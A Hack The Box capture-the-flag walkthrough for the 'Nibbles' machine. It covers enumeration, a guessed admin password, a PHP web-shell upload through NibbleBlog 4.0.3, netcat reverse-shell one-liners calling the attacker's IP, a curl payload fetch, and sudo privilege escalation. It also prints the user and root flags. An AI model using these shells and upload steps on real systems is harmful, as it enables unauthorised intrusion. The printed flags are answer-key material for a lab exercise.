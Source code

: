 ## Hack The Box - Nibbles



## Information
### Room URL
https://app.hackthebox.com/machines/Nibbles

### Target Machine IP
10.10.13.82

### Attacker Machine IP (curl 10.10.10.10/whoami)
10.10.14.147

### Information Gathering
nmap -p- --min-rate 5000 -sV 10.129.131.68
![nmapscan](screenshots/nmapscan.png)

Viewing webpage with inspect open
![webinspect](screenshots/webinspect.png)

Viewing http://10.129.131.68/nibbleblog/
![webnibbleblog](screenshots/webnibbleblog.png)

Internet research reveals an arbitrary file upload vulnerability for version 4.0.3:

https://www.exploit-db.com/exploits/38489

https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html

This page doesnt seem to be going anywhere so start up gobuster:

gobuster dir -u http://10.129.131.68/nibbleblog/ -w /usr/share/dirb/wordlists/common.txt

![gobusterscan](screenshots/gobusterscan.png)

/admin
![adminpage](screenshots/adminpage.png)

/content
![contentpage](screenshots/contentpage.png)

http://10.129.131.68/nibbleblog/content/private/users.xml
![usersxml](screenshots/usersxml.png)

/admin.php
![adminphp](screenshots/adminphp.png)

We know the admin page has a "admin" login from the users.xml but we dont know the password. Hydra cracking is not an option because IP addresses are blacklisted after too many attempts.

Looking back through the content directory, a page config.xml is found.
![configxml](screenshots/configxml.png)

This page makes mention of "nibbles" many times and is the name of the machine. Attempting to use this as the admin password is successful

![adminloggedin](screenshots/adminloggedin.png)

### Admin Page

Looking in the settings page reveals that version 4.0.3 is running, which is the version vulnerable to arbitrary file inclusion

![version](screenshots/version.png)

For this exploit to work, the My Image plugin must be enabled, which it already is. Choose to configure it:

![imageuploader](screenshots/imageuploader.png)

The following bash will form our reverse shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.147 4443 >/tmp/f

Then wrap in php code, save to shell.php and upload.

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.147 4443 >/tmp/f"); ?>

The page gives a bunch of warnings, but that is ok because going to:

http://10.129.131.68/nibbleblog/content/private/plugins/my_image/

We can see that the shell was uploaded as image.php!

Set up a netcat listener:

nc -lvnp 4443

To trigger the reverse shell, visit: http://10.129.131.68/nibbleblog/content/private/plugins/my_image/image.php

And the shell worked!

![ncshell](screenshots/ncshell.png)

### Finding the User Flag

Running the following command upgrades the basic shell to a TTY one:

python3 -c 'import pty; pty.spawn("/bin/bash")'

Running whoami shows the account is "nibbler"

Changing directory to user root (cd ~), and running ls shows the flag

![flag](screenshots/flag.png)

79c03865431abf47b90ef24b9695e148

### Privilege Escalation

By unzipping the personal.zip folder, we find a file monitor.sh

![monitorsh](screenshots/monitorsh.png)

Running sudo -l shows that the monitor.sh can be run with root privilege

![sudol](screenshots/sudol.png)

Attempting to run the shell works as expected

![runmonitor](screenshots/runmonitor.png)

Create another reverse shell to replace monitor.sh with (saved as monitor.sh)

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.147 4445 >/tmp/f

Upload the new monitor.sh with the reverse shell:

curl http://10.10.14.147:8000/monitor.sh -o monitor.sh

Start a netcat listener:

nc -nlvp 4445

Run the new monitor.sh as sudo:

sudo ./monitor.sh

Open the new nc listener and see the shell has connected. Run whoami:

![rootshell](screenshots/rootshell.png)

### Finding the Root Flag

Again run the command to upgrade to a TTY shell:

python3 -c 'import pty; pty.spawn("/bin/bash")'

Look for the root flag:

![rootflag](screenshots/rootflag.png)

de5e5d6619862a8aa5b9b212314e0cdd

Room Complete :)